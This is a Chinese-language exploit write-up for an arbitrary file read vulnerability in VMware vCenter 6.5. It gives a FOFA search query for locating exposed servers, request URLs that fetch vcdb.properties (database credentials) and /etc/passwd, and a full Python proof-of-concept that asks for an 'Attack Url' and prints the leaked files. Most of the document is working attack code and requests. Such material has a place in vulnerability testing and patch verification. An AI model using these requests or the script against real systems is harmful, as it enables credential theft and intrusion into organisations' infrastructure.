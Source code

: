# VMware vCenter 任意文件读取漏洞

## 漏洞描述

VMware vCenter特定版本存在任意文件读取漏洞，攻击者通过构造特定的请求，可以读取服务器上任意文件、

## 漏洞影响

```
VMware vCenter Server 6.5.0a- f 版本
```

## FOFA

```
title="ID_VC_Welcome"
```

## 漏洞复现

![image-20220209124210343](./images/202202091242446.png)

使用POC访问漏洞点

- Windows主机

```plain
http://xxx.xxx.xxx.xxx/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

![image-20220209124225730](./images/202202091242777.png)

- Linux主机

```plain
https://xxx.xxx.xxx.xxx/eam/vib?id=/etc/passwd
```

![image-20220209124241987](./images/202202091242060.png)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: VMware vCenter任意文件读取漏洞                               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url_windows = target_url + "/eam/vib?id=C:\ProgramData\VMware\\vCenterServer\cfg\\vmware-vpx\\vcdb.properties"
    vuln_url_linux = target_url + "/eam/vib?id=/etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response_linux = requests.get(url=vuln_url_linux, headers=headers, verify=False, timeout=5)
        response_windows = requests.get(url=vuln_url_windows, headers=headers, verify=False, timeout=5)
        if "password" in response_windows.text and response_windows.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 vcdb.properties \033[0m".format(target_url))
            print("\033[32m[o] Windows系统, 响应为:\n{} \033[0m".format(response_windows.text))
        elif "root" in response_linux.text and response_linux.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] Linux系统, 响应为:\n{} \033[0m".format(response_linux.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![image-20220209124258448](./images/202202091242558.png)